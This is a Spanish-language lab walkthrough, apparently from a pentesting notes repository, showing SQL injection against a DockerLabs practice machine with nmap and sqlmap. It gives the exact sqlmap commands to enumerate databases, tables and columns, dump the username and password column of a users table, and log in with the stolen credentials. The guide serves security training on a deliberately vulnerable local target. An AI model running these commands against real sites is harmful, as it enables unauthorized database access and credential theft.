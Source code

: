 # Inyecciones SQL – Uso de SQLmap – EJEMPLO 2

Maquinas a utilizar **Kali Linux y Database** [DockerLabs](https://dockerlabs.es/)

- Desplegamos la maquina victima de la siguiente manera.
    
    Lo llevamos al muestra maquina Kali Linux y lo descomprimimos en el escritorio. En una terminal escribimos el siguiente comando:
    
    ```bash
    sudo bash auto_deploy.sh database.tar 
    ```
    
    ![image.png](./imagenes/image%20157.png)
    
    Nos indica la IP de la maquina victima **172.17.0.2**. Sin cerrar este terminal abrimos otro para continuar con la inyección SQL.
    
    ```bash
    nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN escaneo
    ```
    
    ![image.png](./imagenes/image%20158.png)
    
    No vemos ninguna **base de datos,** esto es normal por que **no necesariamente** la base de datos **tiene que estar expuesta**. Puede ser que que podamos acceder a una base de datos desde cualquier equipo o como en esta la base de datos no tenga el puerto abierto.
    
- En el navegador web ponemos la IP de la maquina victima. Nos encontramos ante un panel de Login. Aquí hay una base de datos que esta corriendo de forma interna y por eso no la veíamos expuesta.
    
    ![image.png](./imagenes/image%20159.png)
    

- Aquí lo ideal es probar inyecciones SQL utilizando sqlmap.
    
    Vamos a meter un login erróneo por si nos mostrara el archivo en el que esta corriendo.
    
    ![image.png](./imagenes/image%20160.png)
    

- Vamos a intentar encontrar las **bases de datos** existentes **.**
    
    ```bash
    sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
    ```
    
    ![image.png](./imagenes/image%20161.png)
    

- Toca el turno de las **tablas** en una de las bases de datos en este caso en la base de datos “register”.
    
    ```bash
    sqlmap -u [http://172.17.0.2/index.php](./imagenes/http://172.17.0.2/index.php) --forms -D register --tables --batch
    ```
    
    ![image.png](./imagenes/image%20162.png)
    

- Tenemos la tabla “users”. Toca encontrar **columnas** dentro de esta tabla.
    
    ```bash
    sqlmap -u [http://172.17.0.2/index.php](./imagenes/http://172.17.0.2/index.php) --forms -D register -T users --columns --batch
    ```
    
    ![image.png](./imagenes/image%20163.png)
    
- Ya nos quedaría el ultimo paso que seria mostrar los **registros de las columnas**.
    
    ```bash
    sqlmap -u [http://172.17.0.2/index.php](./imagenes/http://172.17.0.2/index.php) --forms -D register -T users -C passwd,username --dump --batch
    ```
    
    ![image.png](./imagenes/image%20164.png)
    
- Vamos a probar las credenciales en el panel de login.
    
    ![image.png](./imagenes/image%20165.png)
    
    ![image.png](./imagenes/image%20166.png)
